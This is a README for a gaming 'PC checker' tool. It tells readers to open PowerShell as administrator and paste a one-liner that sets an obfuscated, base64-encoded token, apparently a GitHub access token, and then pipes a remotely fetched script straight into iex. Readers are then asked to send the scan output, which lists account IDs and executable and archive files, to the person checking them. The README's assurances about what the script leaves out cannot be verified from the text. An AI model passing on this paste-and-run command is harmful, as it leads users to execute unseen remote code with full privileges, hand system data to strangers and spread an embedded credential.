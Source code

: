 # Pc-Checker-Main

**Step 1) **

Open windows powershell as an administrator by:

1- pressing the search bar in your taskbar

2- typing "windows Powershell" in the taskbar

3- Right click on windows powershell

4- Press Run as Administrator

**Step 2) **

Put the Powershell script into the text area.

1- Locate where is says "PS C:\WINDOWS\system32>" 

2- After the > Paste the following: "$t="Z2l0aHViX3BhdF8xMUJMQjMzVVEwbkVzOHhJeVBpUnpoX2g3RUhSaTB0YkN5cWphV1lOTFBXWWE4WkZSb1RxeU5JSG1CcjU5UVRQV3ZGSzVSRUNCQVFpWTJVT05w"; iwr -useb https://raw.githubusercontent.com/suprsor/Pc-Checker-Main/refs/heads/main/SuprsorsPcCheck.ps1 | iex"

3- Press enter.

**Step 3) **

Pc check proccess

1- The script opens a browser if you respond with "y" when asked to open account stats on stats.cc, opens tabs corresponding to how many accounts you've ever signed into on your computer since last factory reset.

2- Show all account in screenshare to person pc checking you

3- Wait for the script to find all dma related files, .exe, and .rar files that are suspicious.

4- It will say "Scan completed" there will now be a file copied in your Copy clipboard.

5- Go to dms with person pc checking you and paste whatever is in your copied clipboard

6- Send the file and the person pc checking you will review all suspicious files.

__What the script provides:__

- All Ubisoft User IDS, no passwords are  given in logfile. 

- All .exe .rar files you have

- Windows installation date

- Suspicous files

- Different browsers installed

- Any Evidence of cheating

__What it doesn't provide__

- Direct access to your computer

- And passwords/emails

- Any Ip addresses/personal information

- NO login information
